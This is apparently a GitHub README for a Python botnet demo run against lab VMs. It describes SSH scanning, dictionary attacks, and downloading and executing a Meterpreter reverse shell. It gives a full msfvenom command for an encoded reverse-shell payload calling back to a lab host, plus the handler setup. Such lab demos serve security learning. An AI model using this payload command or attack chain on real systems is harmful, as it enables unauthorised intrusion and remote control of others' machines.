 # fresh_bot:
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" file scans virtual network. If it finds a node with ssh<br>
service it then performs a dictionary attack. If successful, script will<br>
attmept to download a meterpreter reverse shell payload and execute it.<br>
Multiprocessing allows for multiple targets to connect to our handler<br>
at once.<br>
<br>
<h3>Environment & Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
3. Create Web Server & host payload: <h4>192.168.203.1/evil_file</h4>
4. Create 4 target VMs. All with ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150&nbsp;&nbsp;user: fresh1 &nbsp;pass: fresh1<br>
&nbsp;&nbsp;&nbsp;192.168.203.151&nbsp;&nbsp;user: fresh2 &nbsp;pass: fresh2<br>
&nbsp;&nbsp;&nbsp;192.168.203.152&nbsp;&nbsp;user: fresh3 &nbsp;pass: fresh3<br>
&nbsp;&nbsp;&nbsp;192.168.203.153&nbsp;&nbsp;user: fresh4 &nbsp;pass: fresh4<br>
<br>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. Atteck/Exploit: Scan, Dictionary Attack, RCE. </h4>
7. Run scan_drop.py on target
